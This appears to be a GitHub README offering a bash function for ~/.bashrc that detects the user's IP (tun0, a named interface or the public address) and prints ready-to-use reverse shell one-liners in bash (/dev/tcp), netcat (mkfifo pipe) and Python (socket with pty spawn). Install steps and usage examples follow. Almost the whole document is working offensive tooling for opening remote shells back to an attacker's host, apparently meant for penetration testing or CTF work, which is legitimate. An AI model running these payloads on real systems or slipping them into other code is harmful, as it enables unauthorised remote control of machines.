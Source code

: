 # Set a Bash Alias for Common Reverse Shell's
```bash
reverse ()
{
  local port=443;
  adaptors=$(ip a | egrep ^[0-9]+ | cut -d" " -f 2 | sed 's/://g');
  OPTIND=1;
  usage()( echo "reverse [-i <interface>] [-l <language>] [-p <port>]";
  printf "Language Options:\n  bash\n  nc\n  python\n\n" );
  while getopts ":i:l:p:h" options; do
      case "${options}" in
        i) local interface=${OPTARG};
          if ! echo $interface |  egrep -qo "public"; then
            if ! echo $adaptors | grep -qo "$interface"; then
              echo  "Interface "${OPTARG}" does not exist";
              usage;
              return;
            fi;
          fi
          ;;
        l) local language=${OPTARG}
          ;;
        p) local port=${OPTARG}
          ;;
        h) usage;
          return
          ;;
        :) echo "Error: -${OPTARG} requires an argument";
          usage;
          return
          ;;
        *) echo "Unknown Switch: -${OPTARG}";
          usage;
          return
          ;;
        esac;
      done;
      if [ -z $interface ]; then
        if ip a | egrep -qo "tun0"; then
          local interface="tun0";
        elif echo $interface | egrep -qo "public" ; then
          local interface="public";
        elif ip a | egrep -qo "eth0"; then
          local interface="eth0";
        elif ip a | egrep -qo "ens33"; then
          local interface="ens33";
        else
          local interface="lo";
        fi;
      fi;
      if echo $interface | egrep -qo "public"; then
        local ip=$(wget -qO - ipv4.icanhazip.com);
      else
        local ip=$(ip a show $interface | egrep -o "([0-9]{1,3}.){3}[0-9]{1,3}" | head -1);
      fi;
      local randName=$(head -4 /dev/urandom | sha256sum | base64 | head -c 5);
      declare -A shells=( ["bash"]="bash -i >& /dev/tcp/$ip/$port 0>&1" ["nc"]="mkfifo /tmp/$randName; nc $ip $port 0</tmp/$randName | /bin/sh >/tmp/$randName 2>&1; rm /tmp/$randName" ["python"]="python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ip",$port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'" );
      if [ -z $language ]; then
        printf "\n";
        for i in "${shells[@]}";do
          printf "$i\n\n";
        done;
        return;
      fi;
      printf "\n${shells[$language]}\n\n"; }
```
# Instructions
<br>
• 1. vim ~/.bashrc
<br>
• 2. copy and paste the above text (see screenshot)
<br>
• 3. save, then open a new terminal and type "<b>reverse -h</b>"
<br>
• 4. the function will default to your tun0 IP 

# Usage

```
reverse -h

reverse -i tun0 -p 9001

reverse -i public -p 9001
```

# Screenshots
<i>~/.bashrc</i>
<img src="https://i.imgur.com/9AtWWvn.png">
<br>
<i>running the alias</i>
<img src="https://i.imgur.com/muKxjaf.png">
<br>
<img src="https://i.imgur.com/xvULtzH.png">
<br>
<b>Please feel free to modify this!</b>
<br>
